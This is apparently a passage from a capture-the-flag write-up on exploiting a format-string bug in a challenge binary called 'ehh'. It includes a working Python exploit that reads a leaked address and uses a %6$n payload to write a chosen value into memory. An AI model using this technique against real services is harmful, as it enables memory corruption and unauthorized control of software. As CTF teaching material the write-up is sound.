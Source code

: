 It is 0x56557028. Also we need to store int 24 and we will use the %n format to write it into the address.

In the payload, we add the target address followed by 24 bytes written followed by %n format. Since we are targetting the 6th position, our payload can look something like this.

```python
payload = ''
payload += struct.pack("<L",leak)
payload += '%{}x'.format(0x18-4)  # overwrite 0x5656b028 to 0x18
payload += '%6$n' # output AAAAAAAAAAAA 0xffaac0a80 x18(nil) 0xf7f3d3fc0 x565790000 x41414141 #payload AAAA%p%p%p%p%p%p%p  %p$6$n
```

For this challenge, the target address is always changing since ASLR is enabled on the server as well. However, the good news is that the target's address is printed out >Input interesting text here< 0x565ec028.

So we can write a script to get that value and setup our payload then submit it to get the flag.

** The python script **

```python 

#!/usr/bin/python

"""
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial

"""
import struct
import socket
import subprocess


proc = subprocess.Popen(['./ehh'], stdout = subprocess.PIPE, stdin = subprocess.PIPE)
leak = proc.stdout.readline() # >Input interesting text here< 0x565ba028
leak = leak.split(' ')[4].strip() # 0x56615028
leak = int(leak,16) # 1448632360
#addr = int(leak[2:10],16)

payload = ''
payload += struct.pack("<L",leak)
payload += '%{}x'.format(0x18-4)  # overwrite 0x5656b028 to 0x18
payload += '%6$n' # output AAAAAAAAAAAA 0xffaac0a80 x18(nil) 0xf7f3d3fc0 x565790000 x41414141 #payload AAAA%p%p%p%p%p%p%p  %p$6$n

proc.stdin.write(payload)
print proc.stdout.readline()

```
